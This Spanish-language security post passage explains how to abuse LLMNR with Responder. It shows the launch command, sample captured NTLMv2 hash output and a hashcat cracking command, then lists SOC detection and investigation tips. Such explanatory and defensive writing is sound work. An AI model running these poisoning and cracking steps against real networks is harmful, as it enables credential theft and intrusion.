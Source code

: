 ![Desktop View](/assets/img/llmnr/image1.png){: width="972" height="589" }

Para abusar de este protocolo podemos usar la herramienta [**Responder**](https://github.com/lgandx/Responder):
Simplemente tendremos que levantar responder en la máquina
```text
sudo responder -I eth0 -dwP
```

y esperar a que obtengamos la información de una victima

```text
[+] Listening for events...
[SMBv2] NTLMv2-SSP Client   : 10.0.1.1
[SMBv2] NTLMv2-SSP Username : DOMINIO\usuario
[SMBv2] NTLMv2-SSP Hash     : usuario::DOMINIO:61dde887aeb2af2a:76DD8039B9606119586BC9A4EF5F3C1:010100000000000080C0653150DE09D20107929B9D6080F5BB000000000200080053004D004200330001001E00570049004E002D0056005600400140053004D00420033002E006C006F00630061006C0003001E00570049004E002D005600560053004D00420033002E006C006F0063006100070008008
```

Una vez tengamos el hash NTLMv2 habrá que usar Hashcat o tu herramienta de cracking favorita para trabajar el hash.

```bash
hashcat –m 5600 <hashfile.txt> <wordlist.txt>
```

### 2.1.2 Detección e investigación de explotación:
Existen varios enfoques para el SOC, principalmente:
1. Algunos EDRs y AV (me consta que Sentinel de Defender) tienen capacidad de detección sobre comportamientos anómalos. Si un equipo empieza a dar respuesta a todas las consultas DNS fallidas os saltará alguna alerta.
2. Analizar eventos... cuantos eventos de resolución de DNS fallidos hay??? han aumentado?? puedes ver los KO del DNS?? 
3. Encontrar el hostname que hace esa respuesta maliciosa os puede ayudar mucho. Normalmente la gente no es tan cuidadosa como para simular que su equipo está en dominio antes de levantar un responder... eso debería daros pistas de que equipo, donde está ubicado y como se está comportando.... El problema es que tienes que ya sabes que ese es el vector. 
4. Todas aquellas recomendaciones que ya se recomiendan en la sobre todo aquellas creadas a raíz de eventos de windows.
